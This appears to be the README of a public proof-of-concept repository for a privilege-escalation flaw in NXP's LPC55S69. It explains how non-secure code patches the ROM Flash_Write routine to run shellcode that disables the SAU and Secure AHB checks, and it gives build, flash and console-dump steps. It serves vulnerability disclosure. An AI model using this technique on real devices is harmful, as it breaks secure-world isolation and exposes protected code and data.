 
# LPC55S69 ROM Patch Privilege Escalation and Arbitrary Code Execution PoC

This repository contains a TrustedFirmware-M non-secure app demonstrating that
non-secure code can utilize the LPC55 ROM patch hardware to gain arbitrary code
execution at secure, privileged mode. Non-secure, unprivileged arbitrary memory
write capability is a prerequisite for this vulnerability.

The PoC takes advantage of NXP's implementation of TrustedFirmware-M's Internal
Trusted Storage (ITS) which performs flash operations using the LPC55 ROM's
Flash API.  A thread is created which increments a counter stored via ITS.  This
ensures that the Flash ROM API will be called on a regular basis.  In a real
TrustedFirmware-M application, any exposed API that writes to flash can be used
for the same purpose.

A second thread is created to deploy the PoC from a non-secure context. The
shellcode is first loaded into an unused portion of the ROM.  As the ROM patch
appears to be size limited to 8 words (32 bytes), constants used by the shellcode
are stored in non-secure memory and only a pointer to that non-secure memory is
appended to the shellcode.  Finally, the Flash_Write ROM API method is modified
to call the shellcode.

The shellcode performs a series of memory writes as specified by the constants
stored in non-secure memory.  The PoC provides constants that extend the SAU
non-secure code and data regions to cover the entire non-secure aliases of the
flash and SRAMs respectively. The Secure AHB controller is then reconfigured to
a default state such that security checking is disabled.  Combined, this allows
non-secure code to access all flash and SRAM contents including secure code and
data sections.

The PoC loader thread then waits for 10 seconds to ensure Flash_Write has been
indirectly called via ITS and the shellcode has been executed.  The PoC loader
thread then proceeds to read the first 256 bytes of the flash (containing the
secure application's vector table which can be easily verified as pointing to
secure addresses) via the non-secure alias starting at 0x0.  Had the shellcode
not executed, attempting to read these locations would have resulted in a
SecureFault or BusFault depending on whether the SAU or Secure AHB denied the
request.

## How to build

```shell
apt-get install gcc-arm-none-eabi pipenv

git clone -b TF-Mv1.2.0 https://git.trustedfirmware.org/TF-M/trusted-firmware-m.git
git clone https://github.com/oxidecomputer/lpc55s69_rompatch_sample.git

cd trusted-firmware-m
# Fix error in CMake config that treats TFM_TEST_REPO_VERSION as a path instead of # a string
git cherry-pick   8501b37db8e038ce39eb7f1039a514edea92c96e
pipenv shell
pip install -r tools/requirements.txt
pip install cmake

cmake -S . -B cmake_build \
  -DTFM_TEST_REPO_VERSION=TF-Mv1.2.0 \
  -DTFM_PLATFORM=nxp/lpcxpresso55s69 \
  -DTFM_TOOLCHAIN_FILE=toolchain_GNUARM.cmake \
  -DCMAKE_BUILD_TYPE=Release \
  -DBL2=OFF \
  -DTFM_APP_PATH=../lpc55s69_rompatch_sample/
cmake --build cmake_build -- install
```

Built images are written to cmake_build/bin in a variety of formats.  `tfm_s` files are the Secure image while `tfm_ns` are the Non-secure image.

## Flash layout

Flash layout on LPC55S69 without BL2:

```text
* 0x0000_0000 Secure + Non-secure image area (512 KB):
*    0x0000_0000 Secure     image (256 KB)
*    0x0004_0000 Non-secure image (256 KB)
* 0x0008_0000 Protected Storage Area (10 KB)
* 0x0008_2800 Internal Trusted Storage Area (8 KB)
* 0x0008_4800 NV counters area (512 B)
* 0x0008_4A00 Unused (77.5 KB)
```

## How to flash using blhost

* Connect USB cable to High Spd port (P9)
* Hold ISP button while pressing and releasing Reset button to enter ISP mode
* `blhost -u 0x1fc9,0x0021 flash-erase-all`
* `blhost -u 0x1fc9,0x0021 write-memory 0x00000000 cmake_build/bin/tfm_s.bin`
* `blhost -u 0x1fc9,0x0021 write-memory 0x00040000 cmake_build/bin/tfm_ns.bin`
* Press and release Reset button

NOTE: I've seen blhost fail often during this process.  Repeat the whole sequence until each step is successful.  Waiting a few seconds after flash-erase-all seems to help.

## Console Output

Both secure and non-secure images write their output to USART0.  On-board LPC-Link2 provides this as a USB-ACM device.  Otherwise, attach 3.3v TTL serial cable to header P8.

NOTE: Since the counter is written to flash, it is persisted across resets but will be cleared with `blhost flash-erase-all`.

NOTE: After `blhost flash-erase-all`, the Internal Trusted Storage area is uninitialized which seems to cause a hang when creating the counter.  If you do not see constant output showing an increasing counter value, reset the device once.  If it still hangs after a reset, something is wrong.

```text
=== [SAU NS] =======
NS ROM Base: 0x00040000
NS ROM Limit: 0x0007FFFF
NS DATA Base: 0x20022000
NS DATA Limit: 0x20043FFF
NSC Base: 0x1003FCC0
NSC Limit: 0x1003FF80
PERIPHERALS Base: 0x40000000
PERIPHERALS Limit: 0x4010FFFF
=== [AHB MPC NS] =======
NS ROM Base: 0x00040000
NS ROM Limit: 0x0007FFFF
NS DATA Base: 0x20022000
NS DATA Limit: 0x20043FFF
[Sec Thread] Secure image initializing!
Booting TFM v1.2.0
[Crypto] MBEDTLS_TEST_NULL_ENTROPY is not suitable for production!
LPC55 ROM Patch PoC starting as non-secure app...
[TOUCH FLASH API] Started[LPC55
PoC] Good morning from this thread
[TOUCH FLASH API] Counter: 0
[TOUCH FLASH API] Counter: 1
[TOUCH FLASH API] Counter: 2
[TOUCH FLASH API] Counter: 3
[LPC55 PoC] Starting rom patch
[LPC55 PoC] Finished ROM patch
[TOUCH FLASH API] Counter: 4
[TOUCH FLASH API] Counter: 5
[TOUCH FLASH API] Counter: 6
[TOUCH FLASH API] Counter: 7
[TOUCH FLASH API] Counter: 8
[TOUCH FLASH API] Counter: 9
[TOUCH FLASH API] Counter: a
[TOUCH FLASH API] Counter: b
[TOUCH FLASH API] Counter: c
[TOUCH FLASH API] Counter: d
[LPC55 PoC] Start of Secure Code:
[LPC55 PoC] 0x0:        0       8       0       30      31      1       0       10      9d      1       0       10      31      ab      0     0
[LPC55 PoC] 0x10:       35      ab      0       10      39      ab      0       10      99      1       0       10      3d      ab      0     0
[LPC55 PoC] 0x20:       0       0       0       0       0       0       0       0       0       0       0       0       5       ab      0     0
[LPC55 PoC] 0x30:       99      1       0       10      0       0       0       0       a9      1       0       10      ad      1       0     0
[LPC55 PoC] 0x40:       b1      1       0       10      b5      1       0       10      b9      1       0       10      bd      1       0     0
[LPC55 PoC] 0x50:       c1      1       0       10      c5      1       0       10      c9      1       0       10      cd      1       0     0
[LPC55 PoC] 0x60:       d1      1       0       10      d5      1       0       10      d9      1       0       10      dd      1       0     0
[LPC55 PoC] 0x70:       e1      1       0       10      e5      1       0       10      e9      1       0       10      ed      1       0     0
[LPC55 PoC] 0x80:       f1      1       0       10      f5      1       0       10      f9      1       0       10      fd      1       0     0
[LPC55 PoC] 0x90:       1       2       0       10      5       2       0       10      9       2       0       10      d       2       0     0
[LPC55 PoC] 0xa0:       11      2       0       10      15      2       0       10      19      2       0       10      1d      2       0     0
[LPC55 PoC] 0xb0:       21      2       0       10      25      2       0       10      29      2       0       10      2d      2       0     0
[LPC55 PoC] 0xc0:       31      2       0       10      35      2       0       10      39      2       0       10      3d      2       0     0
[LPC55 PoC] 0xd0:       41      2       0       10      45      2       0       10      49      2       0       10      4d      2       0     0
[LPC55 PoC] 0xe0:       51      2       0       10      55      2       0       10      59      2       0       10      5d      2       0     0
[LPC55 PoC] 0xf0:       61      2       0       10      65      2       0       10      69      2       0       10      6d      2       0     0
[TOUCH FLASH API] Counter: e
```